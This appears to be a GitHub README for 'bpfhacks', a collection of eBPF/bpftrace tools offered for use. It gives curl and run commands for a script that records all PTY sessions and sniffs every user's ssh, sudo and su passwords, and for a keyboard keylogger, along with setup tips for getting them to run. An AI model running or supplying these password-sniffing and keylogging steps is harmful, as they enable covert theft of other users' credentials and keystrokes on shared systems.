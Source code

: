 # eBPF tools

A (short) collecton of eBPF enabled tools (need root privileges to run);

Prerequisite: Install the latest bpftrace tool:
```console
curl -o bpftrace -fsSL https://github.com/iovisor/bpftrace/releases/latest/download/bpftrace
chmod 755 bpftrace
```

## Project #1 - Sniff all ssh/login/xterm session:

Record all PTY sessions and sniffs all ssh/sudo/su passwords of all users.

```console
curl -o ptysnoop.bt -fsSL https://github.com/hackerschoice/bpfhacks/raw/main/ptysnoop.bt
export BPFTRACE_MAX_STRLEN=200
./bpftrace -Bnone ptysnoop.bt
```
<p align="center">
<img width="675" alt="ptysnoop" src="https://github.com/hackerschoice/bpfhacks/assets/5938498/de068ae5-9cea-44fc-83a6-56e4d37dee93">
</p>

Tools by others: [SSHLog](https://ebpf.io/applications/#sshlog).

## Project #2 - Keylogger:

Record all keys pressed on the keyboard:

```console
./bpftrace -Bnone keylogger.bt
```
<p align="center">
<img alt="keuylogger" src="https://github.com/hackerschoice/bpfhacks/assets/5938498/2d9d90bf-497d-4cc7-9583-5b8c162231b6">
</p>

## TIPS & TRICKS

It may complain about missing Linux Kernel header files. Download them to a local directory:
```sh
wget https://debian.sipwise.com/debian-security/pool/main/l/linux/linux-headers-...
dpkg-deb -xv linux-headers-*.deb "$(pwd)"
export BPFTRACE_KERNEL_SOURCE="$(echo "$(pwd)/usr/src/linux-headers-"*)"
sed '/generated\/autoconf.h/d' -i "${BPFTRACE_KERNEL_SOURCE}/include/linux/kconfig.h"
```

Check for BPF support in the Kernel (it is enabled by default):
```sh
grep CONFIG_BPF /boot/config-$(uname -r)
```


